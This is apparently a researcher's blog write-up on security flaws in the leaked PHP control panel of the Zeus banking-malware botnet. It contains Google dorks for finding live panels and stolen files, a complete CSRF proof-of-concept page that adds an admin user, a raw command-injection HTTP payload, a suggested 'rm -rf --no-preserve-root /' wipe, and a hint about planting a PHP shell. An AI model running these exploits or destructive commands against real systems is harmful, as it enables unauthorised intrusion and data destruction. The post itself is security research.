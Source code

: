 ```yaml
---           
layout: post
title: Attacking financial malware botnet panels - Zeus
date: 2019-10-08 14:00:32 UTC
updated: 2019-10-08 14:00:32 UTC
comments: false
categories: botnet remote code execution Zeus
---
```

<div style="text-align: justify;">I played with leaked financial malware recently. When I saw these panels are written in PHP, my first idea was to hack them. The results are the work of one evening, please don't expect a full pentest report with all vulns found :-)</div><div style="text-align: justify;"><br /></div><div style="text-align: justify;">The following report is based on Zeus 2.0.8.9, which is old, but I believe a lot of Zeus clones (and C&amp;C panels) depend on this code.</div><div style="text-align: justify;"><br /></div><div style="text-align: justify;">First things first, here are some Google dorks to find Zeus C&amp;C server panel related stuff:</div><div style="text-align: justify;"></div><ul><li>inurl:cp.php?m=login - this should be the login to the control panel</li><li>inurl:_reports/files &nbsp;- in these folders you can find the stolen stuff, pretty funny if it gets indexed by Google</li><li>inurl:install/index.php - this should be deleted, but I think this is useless now.</li></ul><br /><div class="separator" style="clear: both; text-align: center;"><a href="http://2.bp.blogspot.com/-ziFRsPr5I-E/Uv1B22qfQvI/AAAAAAAABpE/fO_-MpMjHpw/s1600/Zeus1.png" style="margin-left: 1em; margin-right: 1em;"><img border="0" height="166" src="https://2.bp.blogspot.com/-ziFRsPr5I-E/Uv1B22qfQvI/AAAAAAAABpE/fO_-MpMjHpw/s1600/Zeus1.png" width="400" /></a></div><br /><h3>Boring vulns found</h3><ul><li style="text-align: justify;"><a href="https://www.owasp.org/index.php/Testing_for_Credentials_Transported_over_an_Encrypted_Channel_(OWASP-AT-001)">Clear text HTTP login</a> - you can sniff the login password via MiTM, or steal the session cookies</li><li style="text-align: justify;"><a href="https://www.owasp.org/index.php/Testing_for_Weak_password_policy_(OWASP-AT-008)">No password policy</a> - admins can set up really weak passwords</li><li style="text-align: justify;"><a href="https://www.owasp.org/index.php/Testing_for_Weak_lock_out_mechanism_(OWASP-AT-004)">No anti brute-force</a> - you can try to guess the admin's password. Default username is admin</li><li style="text-align: justify;"><a href="https://www.owasp.org/index.php/Testing_for_Vulnerable_Remember_Password_(OWASP-AT-006)">Password autocomplete enabled</a> - boring</li><li style="text-align: justify;"><a href="https://www.owasp.org/index.php/Testing_for_cookies_attributes_(OWASP-SM-002)">Missing HttpOnly flag on session cookie</a> - it could be nice if I could find any XSS. I need more time to find one!</li><li style="text-align: justify;"><a href="https://www.owasp.org/index.php/Testing_for_CSRF_(OWASP-SM-005)">No CSRF protection</a> - except on the password change, where the old password is needed :-( boring</li></ul>Update: You can use the CSRF to create a new user with admin privileges:<br /><div><div><pre class="prettyprint linenums lang-html">&lt;html&gt;<br />&lt;head&gt;<br />    &lt;title&gt;&lt;/title&gt;<br />&lt;/head&gt;<br />&lt;body&gt;<br />    &lt;pre&gt;<br />  This is a CSRF POC to create a new admin user in Zeus admin panels.<br />  Username: user_1392719246 Password: admin1<br />  You might change the URL from 127.0.0.1.<br />  Redirecting in a hidden iframe in &lt;span id="countdown"&gt;10&lt;/span&gt; seconds.  <br />&lt;/pre&gt;<br />&lt;iframe id="csrf-frame" name="csrf-frame" style="display: none;"&gt;&lt;/iframe&gt;<br />    &lt;form action="http://127.0.0.1/cp.php?m=sys_users&amp;amp;new" id="csrf-form" method="post" name="csrf-form" target="csrf-frame"&gt;<br /> &lt;input name="name" type="hidden" value="user_1392719246" /&gt; <br /> &lt;input name="password" type="hidden" value="admin1" /&gt; <br /> &lt;input name="status" type="hidden" value="1" /&gt; <br /> &lt;input name="comment" type="hidden" value="PWND!" /&gt;<br /> &lt;input name="r_botnet_bots" type="hidden" value="1" /&gt; <br /> &lt;input name="r_botnet_scripts" type="hidden" value="1" /&gt; <br /> &lt;input name="r_botnet_scripts_edit" type="hidden" value="1" /&gt; <br /> &lt;input name="r_edit_bots" type="hidden" value="1" /&gt; <br /> &lt;input name="r_reports_db" type="hidden" value="1" /&gt; <br /> &lt;input name="r_reports_db_edit" type="hidden" value="1" /&gt; <br /> &lt;input name="r_reports_files" type="hidden" value="1" /&gt;<br /> &lt;input name="r_reports_files_edit" type="hidden" value="1" /&gt;<br /> &lt;input name="r_reports_jn" type="hidden" value="1" /&gt; <br /> &lt;input name="r_stats_main" type="hidden" value="1" /&gt; <br /> &lt;input name="r_stats_main_reset" type="hidden" value="1" /&gt; <br /> &lt;input name="r_stats_os" type="hidden" value="1" /&gt; <br /> &lt;input name="r_system_info" type="hidden" value="1" /&gt; <br /> &lt;input name="r_system_options" type="hidden" value="1" /&gt;<br /> &lt;input name="r_system_user" type="hidden" value="1" /&gt; <br /> &lt;input name="r_system_users" type="hidden" value="1" /&gt;<br />    &lt;/form&gt;<br />&lt;script type="text/javascript"&gt;<br /> window.onload=function(){ <br />  var counter = 10;<br />  var interval = setInterval(function() {<br />   counter--;<br />   document.getElementById('countdown').innerHTML = counter;<br />   if (counter == 0) {<br />    redirect();<br />    clearInterval(interval);<br />   }<br />  }, 1000);<br /> };<br />    function redirect() {<br />  document.getElementById("csrf-form").submit();<br />    }<br />    &lt;/script&gt;<br />&lt;/body&gt;<br />&lt;/html&gt;<br /></pre><ul><li style="text-align: justify;">MD5 password - the passwords stored in MySQL are MD5 passwords. No <a href="http://www.unlimitednovelty.com/2012/03/dont-use-bcrypt.html">PBKDF2, bcrypt, scrypt, salt</a>, whatever. MD5.</li><li style="text-align: justify;"><a href="http://www.contextis.com/research/tools/clickjacking-tool/">ClickJacking</a> - really boring stuff</li><li style="text-align: justify;">Remember me (MD5 cookies) - a very bad idea. In this case, the remember me function is implemented in a way where the MD5 of the password and MD5 of the username is stored in a cookie. If I have XSS, I could get the MD5(password) as well.</li><li style="text-align: justify;"><a href="https://www.owasp.org/index.php/Testing_for_SQL_Injection_(OWASP-DV-005)">SQLi</a> - although concatenation is used instead of parameterized queries, and addslashes are used, the integers are always quoted. This means it can be hacked only in case of special encoding like&nbsp;GB/Big5, pretty unlikely.</li></ul><br /><h3>Whats good news (for the C&amp;C panel owners)</h3><br />The following stuff looks good, at least some vulns were taken seriously:<br /><ul><li>The system directory is protected with .htaccess deny from all.</li><li>gate.php - this is the "gate" between the bots and the server, this PHP is always exposed to the Internet. The execution of this PHP dies early if you don't know the key. But you can <a href="http://blog.threatexpert.com/2009/09/time-to-revisit-zeus-almighty.html">get the key</a> from the binary of this specific botnet (<a href="http://mnin.blogspot.be/2011/09/abstract-memory-analysis-zeus.html">another URL how to do this</a>). If you have the key, then you can fill the database with garbage, but that's all I can think of now.</li><li>Anti <a href="https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OWASP-DV-001)">XSS</a>: the following code is used almost everywhere</li><pre class="prettyprint lang-js">return htmlspecialchars(preg_replace('|[\x00-\x09\x0B\x0C\x0E-\x1F\x7F-\x9F]|u', ' ', $string), ENT_QUOTES, 'UTF-8');</pre>My evil thought was to inject malicious bot_id, but it looks like it has been filtered everywhere. Sad panda.</ul><br /><h3>What's really bad news (for the C&amp;C panel owners)</h3><br />And the best vuln I was able to find, <a href="https://www.owasp.org/index.php/Testing_for_Command_Injection_(OWASP-DV-013)">remote code execution</a>&nbsp;through command injection&nbsp;(happy panda), but only for authenticated users (sad panda).<br /><br />The vulnerable code is in system/fsarc.php:<br /><br /><div class="separator" style="clear: both; text-align: center;"><a href="http://2.bp.blogspot.com/-rTp0eseKEl4/Uv1CrOI6HWI/AAAAAAAABpM/vh7o3EbmeT0/s1600/Zeus2.png" style="margin-left: 1em; margin-right: 1em;"><img border="0" height="292" src="https://2.bp.blogspot.com/-rTp0eseKEl4/Uv1CrOI6HWI/AAAAAAAABpM/vh7o3EbmeT0/s1600/Zeus2.png" width="400" /></a></div><pre class="prettyprint lang-php">function fsarcCreate($archive, $files){<br />   ...<br />   $archive .= '.zip';<br />   $cli = 'zip -r -9 -q -S "'.$archive.'" "'.implode('" "', $files).'"';<br />   exec($cli, $e, $r);<br />}</pre><br />The exploit could not be simpler: <br /><pre class="prettyprint lang-html">POST /cp.php?m=reports_files&amp;path= HTTP/1.1<br />...<br />Content-Type: application/x-www-form-urlencoded<br />Content-Length: 60<br /><br />filesaction=1&amp;files%5B%5D=files"||ping%20-n%2010%20127.0.0.1<br /></pre>because the zip utility was not found on my Windows box. You can try to replace || with &amp;&amp; when attacking Windows (don't forget to URL encode it!), or replace || with ; when attacking Linux. You can also link this vulnerability with the CSRF one, but it is unlikely you know both the control panel admin, and the control panel URLs. Or if this is the case, the admin should practice better OPSEC :)<br />Recommendation: use <a href="http://www.php.net/manual/en/function.escapeshellcmd.php">escapeshellcmd</a>&nbsp;next time.<br /><br />Next time you find a vulnerable control panel with a weak password, just rm -rf --no-preserve-root / it ;-)<br /><br />That's all folks!<br />Special greetz to Richard (XAMPP Apache service is running as SYSTEM ;-) )<br /><br /><b>Update:</b> Looks like the gate.php is worth to investigate if you know the RC4 key. <a href="http://cybercrime-tracker.net/zeus.php">You can upload a PHP shell :)</a></div></div>